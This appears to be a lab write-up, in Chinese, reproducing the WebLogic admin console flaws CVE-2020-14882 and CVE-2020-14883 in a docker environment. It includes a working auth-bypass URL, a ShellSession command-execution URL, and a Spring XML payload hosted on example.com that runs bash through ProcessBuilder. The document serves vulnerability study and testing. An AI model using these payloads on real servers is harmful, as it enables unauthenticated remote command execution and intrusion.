


Weblogic 管理控制台未授权远程命令执行漏洞（CVE-2020-14882，CVE-2020-14883）¶
Weblogic是Oracle公司推出的J2EE应用服务器。在2020年10月的更新中，Oracle官方修复了两个长亭科技安全研究员@voidfyoo 提交的安全漏洞，分别是CVE-2020-14882和CVE-2020-14883。
CVE-2020-14882允许未授权的用户绕过管理控制台的权限验证访问后台，CVE-2020-14883允许后台任意用户通过HTTP协议执行任意命令。使用这两个漏洞组成的利用链，可通过一个GET请求在远程Weblogic服务器上以未授权的任意用户身份执行命令。
参考链接：
- https://www.oracle.com/security-alerts/cpuoct2020traditional.html
- https://testbnull.medium.com/weblogic-rce-by-only-one-get-request-cve-2020-14882-analysis-6e4b09981dbf
漏洞环境¶
执行如下命令启动一个Weblogic 12.2.1.3版本的服务器：
docker compose up -d
启动完成后，访问http://your-ip:7001/console即可查看到后台登录页面。
漏洞复现¶
首先测试权限绕过漏洞（CVE-2020-14882），访问以下URL，即可未授权访问到管理后台页面：
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal

访问后台后，可以发现我们现在是低权限的用户，无法安装应用，所以也无法直接执行任意代码：

此时需要利用到第二个漏洞CVE-2020-14883。这个漏洞的利用方式有两种，一是通过com.tangosol.coherence.mvel2.sh.ShellSession，二是通过com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext。
直接访问如下URL，即可利用com.tangosol.coherence.mvel2.sh.ShellSession执行命令：
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")
进入容器，可以发现touch /tmp/success1已成功执行：

这个利用方法只能在Weblogic 12.2.1以上版本利用，因为10.3.6并不存在com.tangosol.coherence.mvel2.sh.ShellSession类。
com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext是一种更为通杀的方法，最早在CVE-2019-2725被提出，对于所有Weblogic版本均有效。
首先，我们需要构造一个XML文件，并将其保存在Weblogic可以访问到的服务器上，如http://example.com/rce.xml：
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
<bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
<constructor-arg>
<list>
<value>bash</value>
<value>-c</value>
<value><![CDATA[touch /tmp/success2]]></value>
</list>
</constructor-arg>
</bean>
</beans>
然后通过如下URL，即可让Weblogic加载这个XML，并执行其中的命令：
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://example.com/rce.xml")

这个利用方法也有自己的缺点，就是需要Weblogic的服务器能够访问到恶意XML。